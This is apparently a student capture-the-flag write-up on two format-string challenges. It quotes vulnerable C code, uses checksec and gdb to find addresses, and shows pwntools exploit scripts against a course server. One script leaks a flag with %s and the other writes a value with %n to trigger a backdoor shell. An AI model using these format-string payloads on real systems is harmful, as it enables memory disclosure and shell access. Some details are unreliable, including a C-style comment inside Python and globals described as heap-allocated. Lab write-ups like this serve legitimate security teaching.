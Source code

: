 # Format Strings

## First Flag

### File Analysis

As good practice, we start off by investigating what we're being given. Therefore we be analysing what's inside "_main.c_":

Looking inside the code we can see that it:

-Creates an array "_flag_" accessibable throughout the file whose size is given with _FLAG_BUFFER_SIZE_, which is 40.

```C
#define FLAG_BUFFER_SIZE 40 

char flag[FLAG_BUFFER_SIZE]; // file size is 40!
```

- Stores the _flag.txt_ content inside of the flag array.

```C
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}```

-Reads 32 bytes of _user input_, stores inside of the character array _buffer_ and then prints it.

```C

        char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```
-An _if_ statement that executes different messages in case we achieved in getting the flag or not.

```C
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```
### Execution Analysis

We will now be analysing how _main.c_ behaviour works on _program_ (which is _main.c_ compilled) with the command:

```bash
checksec --file=program
```

![Alt text](./images/ctf7-1.png)

We can see here that here that the binaries aren't randomize(is not a _PIE_, Position-Independent Executable), but there are canaries, which prevents buffer overflow attacks as they will be detected

Using that knowlegde, we can assume that we are going to use a _format string attack_ as we have a _printf_ that prints an input stored in a 32 byte buffer. 

When we run the program, whenever the function _load___flag_ it will put the flag into the the buffer which, as a global variable, will be stored in the heap. Using _dbg_ we can find out the memory address where the function return address. We will run in the console 
```Bash
gdb program
p load_flag # 
```

![Alt text](./images/ctf7-2.png)

So we now know that the return address is **_0x8049256_**.

We will now prepare the payload by making some changes to the given __exploit_example.py__.

```python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s" //transforms it into a string format

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

![Alt text](./images/ctf7-3.png)

Thus, the flag we get is **flag{a36ac6c2b6ecee59b102cf406c2e354d}**!

## Second Flag

Yet again, we are going to start off by running:

```bash
checksec --file=program
```

![Alt text](./images/ctf7-4.png)


As with the other program, we can there are cannaries and it is not a PIE.

As such we are going to analyse the behaviour of main.c! The main  difference is:

```C
if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else 
```
We can see that in this case, if the _key_ value is **0xbeef** then a bash is activated and we have access to the server, allowing us to view the contents of *flag.txt*. Therefore, we must manipulate the value of *key* (which is allocated in the heap as it a global variable), and we can use a format string attack through *'%n'*. But first we must know the address of *key*.

```bash
gdb program
p &key
```

![Alt text](./images/ctf7-5.png)

We can see that address of *key* is: **0x804b324**. Now we must convert 0xbeef to string format, which is 48879. Using this information we now alter the used the previous flag exploit by writting 48875 (48879 - 4) '%n'. So we get:

```Python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)


p.sendline(b"\x24\xb3\x04\x08%.48875x%1$n")
p.interactive()
```
![Alt text](./images/ctf7-6.png)

Thus the flag is: **flag{6ac96371637acd9b27d93579d9cbb888}**
